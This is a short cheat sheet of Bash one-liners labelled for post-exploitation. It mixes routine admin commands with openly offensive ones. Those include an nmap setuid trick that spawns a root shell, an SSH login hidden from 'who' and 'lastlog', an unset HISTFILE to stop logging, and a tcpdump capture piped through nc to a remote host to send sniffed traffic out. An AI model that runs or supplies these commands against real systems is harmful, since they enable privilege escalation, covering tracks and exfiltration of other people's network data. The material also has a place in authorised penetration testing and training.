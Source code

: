 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions

